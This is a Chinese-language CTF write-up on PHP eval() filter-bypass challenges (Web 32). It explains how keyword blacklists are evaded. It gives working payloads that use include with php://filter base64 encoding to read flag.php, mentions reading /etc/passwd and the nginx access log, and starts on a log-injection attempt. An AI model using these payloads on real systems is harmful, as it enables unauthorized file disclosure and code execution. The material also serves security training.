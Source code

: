 each()返回当前元素的键名和键值，并将内部指针向前移动。

**还有一种方法：**

`?c=$f=glob("f*");show_source($f[0]);`





## Web 32

代码如下：

```php
<?php
error_reporting(0);
if (isset($_GET['c'])) {
    $c = $_GET['c'];
    if (!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)) {
        eval($c);
    }
} else {
    highlight_file(__FILE__);
}
?>
```

看了看WP，两种方法，**文件包含**、**日志注入**。



### 文件包含：

```php
?c=include%0a$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
?c=include%0A$_GET[a]?>&a=php://filter/convert.base64-encode/resource=flag.php

?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
```

其实两者的差距只在于一个%0a，改不改无所谓，下面解释各成分作用

- 首先是include+参数1，作用是包含参数1的文件，运用了文件包含漏洞，最后的文件名字可以改为/etc/passwd和nginx的日志文件来定位flag位置
- 然后是%0a作用，这是url回车符，因为空格被过滤。事实上，删去也无所谓，似乎php会自动给字符串和变量间添加空格（经检验，只在eval中有效，echo中无效，还是得要空格）
- 后面的?>的作用是作为绕过分号，作为语句的结束。原理是：php遇到定界符关闭标签会自动在末尾加上一个分号。简单来说，就是php文件中最后一句在?>前可以不写分号。
- 在c中引用了参数1，然后&后对参数1定义，运用文件包含漏洞
- php://filter/convert.base64-encode/resource=  是hackbar中LFI文件包含漏洞一个功能，用来包含并且返回，得到结果还要进行base64解码
- 有的时候参数是数字会被过滤，这时候换成字母就行了（Web 36）

**PS:前面的几道题也可以使用文件包含做，但是没有什么必要**



### 日志包含(失败)

但是假如我们并不知道flag在哪里呢？
我们通过响应头，发现是nginx，默认nginx日志文件在/var/log/nginx/access.log
